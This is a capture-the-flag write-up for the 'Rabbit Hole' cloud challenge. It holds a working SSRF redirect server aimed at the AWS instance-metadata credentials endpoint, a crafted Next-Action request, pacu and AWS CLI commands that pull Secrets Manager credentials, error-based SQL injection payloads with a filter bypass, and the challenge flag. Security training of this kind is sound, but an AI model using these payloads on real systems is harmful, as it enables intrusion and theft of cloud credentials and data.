








# Cloud

<table><thead><tr><th width="347">Challenge</th><th>Topic</th></tr></thead><tbody><tr><td><a href="#rabbit-hole">Rabbit Hole</a></td><td>AWS Secrets Manager, AWS Amplify, SSRF, SQL Injection</td></tr></tbody></table>

## Rabbit Hole

### Description

\-

### Solution

We were given access to a website, <http://18.138.81.27:3000/> . We knew the website was using `NextJS`, and we'd read about `SSRF` vulnerabilities in NextJS, so we tried it, and it turned out to be valid.

<figure><figcaption></figcaption></figure>

Then we use the following script to make it easier to setup the exploit.

* <https://github.com/God4n/nextjs-CVE-2024-34351-_exploit/blob/main/attacker-server.py>.

After confirming the vulnerability, then we will try to read the `AWS metadata` by utilizing the SSRF.

```python
from http.server import BaseHTTPRequestHandler, HTTPServer
from urllib.parse import urlparse
import json

class SimpleHandler(BaseHTTPRequestHandler):
    def do_HEAD(self):
        self.send_response(200)
        self.send_header('Content-Type', 'text/x-component')
        self.end_headers()

    def do_GET(self):
        ssrf = self.headers.get('ssrf', 'http://169.254.169.254/latest/meta-data/iam/security-credentials/rabbit-hole-role-8af7c177f9ae8efb7f59bc82f32bee80/')
       
        log_data = {
            'url': self.path,
            'method': self.command,
            'ssrf': ssrf
        }
        print("Request received: " + json.dumps(log_data))
        print(f"Redirecting to: {ssrf}")

        self.send_response(302)
        self.send_header('Location', ssrf)
        self.end_headers()

def run(server_class=HTTPServer, handler_class=SimpleHandler, port=8000):
    server_address = ('', port)
    httpd = server_class(server_address, handler_class)
    print(f'Listening on port {port}...')
    httpd.serve_forever()

if __name__ == '__main__':
    run()

```

Modify the HTTP request on burpsuite like the following request

```http
POST /Diavolo HTTP/1.1
Host: <ATTACKER_SERVER>
Content-Length: 2
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Next-Action: 95228ff7cf92d88ecfca706b51714073b0e48996

{}
```

Then we can see the leaked data in HTTP response

<figure><figcaption></figcaption></figure>

Next, we leak the region from AWS by changing the target URL to `http://169.254.169.254/latest/meta-data/placement/region`.

<figure><figcaption></figcaption></figure>

The region was determined to be `ap-southeast-1`. Next, we used `pacu` to bruteforce the services available on that account.

```json
2025-08-01 15:51:32,027 - 312196 - [INFO] -- Account Id  : 888751817624
2025-08-01 15:51:32,027 - 312196 - [INFO] -- Account Path: assumed-role/rabbit-hole-role-8af7c177f9ae8efb7f59bc82f32bee80/i-00c24b2d490183cd1
2025-08-01 15:51:34,649 - 312196 - [INFO] Attempting common-service describe / list brute force.
2025-08-01 15:51:42,741 - 312196 - [ERROR] Remove globalaccelerator.describe_accelerator_attributes action
2025-08-01 15:51:45,676 - 312196 - [INFO] -- sts.get_caller_identity() worked!
2025-08-01 15:51:45,953 - 312196 - [ERROR] Remove codedeploy.get_deployment_target action
2025-08-01 15:51:48,000 - 312196 - [ERROR] Remove codedeploy.batch_get_deployment_targets action
2025-08-01 15:51:48,427 - 312196 - [ERROR] Remove codedeploy.list_deployment_targets action
2025-08-01 15:51:49,779 - 312196 - [INFO] -- dynamodb.describe_endpoints() worked!
2025-08-01 15:51:54,162 - 312196 - [INFO] -- amplify.list_apps() worked!
2025-08-01 15:52:13,768 - 312196 - [INFO] -- secretsmanager.list_secrets() worked!
```

From above results we can see that there is list\_secrets service that can be accessed, so let's try to get the information using AWS CLI

```bash
aws secretsmanager list-secrets --region ap-southeast-1 --output json
```

```json
{
    "SecretList": [
        {
            "ARN": "arn:aws:secretsmanager:ap-southeast-1:888751817624:secret:starlight-entertainment-secrets-9b0bdf20d6cc59599b273232cff43112-rKd3UF",
            "Name": "starlight-entertainment-secrets-9b0bdf20d6cc59599b273232cff43112",
            "LastChangedDate": 1753596434.59,
            "LastAccessedDate": 1754352000.0,
            "Tags": [],
            "SecretVersionsToStages": {
                "c41ae43a-59a9-4074-9c57-0bd023442301": [
                    "AWSCURRENT"
                ]
            },
            "CreatedDate": 1753596434.557
        }
    ]
}
```

We can see that there is a `secret`, so let's check the value for the available secret using AWS CLI

```bash
aws secretsmanager get-secret-value --secret-id "starlight-entertainment-secrets-9b0bdf20d6cc59599b273232cff43112" --region ap-southeast-1
```

```json
{
    "ARN": "arn:aws:secretsmanager:ap-southeast-1:888751817624:secret:starlight-entertainment-secrets-9b0bdf20d6cc59599b273232cff43112-rKd3UF",
    "Name": "starlight-entertainment-secrets-9b0bdf20d6cc59599b273232cff43112",
    "VersionId": "c41ae43a-59a9-4074-9c57-0bd023442301",
    "SecretString": "{\"Username\":\"prodtest\",\"Password\":\"st4rl1ght123\"}",
    "VersionStages": [
        "AWSCURRENT"
    ],
    "CreatedDate": 1753596434.585
}
```

From above command, the secret is a credentials with username and password field. Now the questions is where should we use that credentials? let's continue to enum the service.&#x20;

Previously we see that there is `amplify.list_apps` service that works also, let's check it using AWS CLI.

```bash
aws amplify list-apps --region ap-southeast-1
```

```json
{
    "apps": [
        {
            "appId": "d1n33a9kxrty1e",
            "appArn": "arn:aws:amplify:ap-southeast-1:888751817624:apps/d1n33a9kxrty1e",
            "name": "starlight-entertainment-68a894fc9057db03eda2a6fee7eb6199",
            "tags": {},
            "platform": "WEB",
            "createTime": 1753458689.087,
            "updateTime": 1753596393.709,
            "defaultDomain": "d1n33a9kxrty1e.amplifyapp.com",
            "enableBranchAutoBuild": false,
            "enableBranchAutoDeletion": false,
            "enableBasicAuth": false,
            "customRules": [
                {
                    "source": "/<*>",
                    "target": "/index.html",
                    "status": "404-200"
                }
            ],
            "productionBranch": {
                "lastDeployTime": 1753953722.331,
                "status": "SUCCEED",
                "branchName": "production"
            },
            "customHeaders": "",
            "enableAutoBranchCreation": false,
            "cacheConfig": {
                "type": "AMPLIFY_MANAGED_NO_COOKIES"
            },
            "jobConfig": {
                "buildComputeType": "STANDARD_8GB"
            }
        }
    ]
}
```

There's a URL on list-apps service, so we tried opening it and got a 404 not found. After several enumeration we discovered that there's a subdomain within that URL, which is the following URL

* <https://production.d1n33a9kxrty1e.amplifyapp.com/.&#x20>;

After opening the URL, we're prompted to authenticate and we've successfully authenticated using the credentials we obtained from the list secret.

<figure><figcaption></figcaption></figure>

Looking at the website, we can see that there is chatbot feature. After doing fuzzing we found that there is SQL injection when we give input `'` on Topic.

<figure><figcaption></figcaption></figure>

We can see that the error is displayed on the chatbot, so instead of doing blind we can use `error based SQL injection` to leak data on the database. But the problem is looks like there is a restriction where our payload will have spaces removed. Because it is a common filter, we can use common bypass also which is using `/**/` to bypass space restriction or filter.

First, we need to leak the table.



```sql
'+(select/**/extractvalue(1,concat(0x7e,(select/**/table_name/**/from/**/information_schema.tables/**/where/**/table_schema=database()/**/limit/**/1))))+'
```



<figure><figcaption></figcaption></figure>

After knowing table name, we can continue to leak column name



```sql
'+(select/**/extractvalue(1,concat(0x7e,(select/**/column_name/**/from/**/information_schema.columns/**/where/**/table_name='backup_env'/**/and/**/table_schema=database()/**/limit/**/1))))+'
```



<figure><figcaption></figcaption></figure>

Now we've the column name, let's continue to leak the data inside it.



```sql
'+(select/**/extractvalue(1,concat(0x7e,(select/**/data_backup_number_404/**/from/**/backup_env/**/limit/**/1))))+'
```



<figure><figcaption></figcaption></figure>

From image above we can see that the output is truncated, assuming that it is limitation for the output we choose to try leaking next value by using substring.



```sql
'+(select/**/extractvalue(1,concat(0x7e,(select/**/substr(data_backup_number_404,32,64)/**/from/**/backup_env/**/limit/**/1))))+'
```



<figure><figcaption></figcaption></figure>

Finally we got the full flag!

Flag: ITSEC{bd8f95175722b36d0068fa36600a552a}
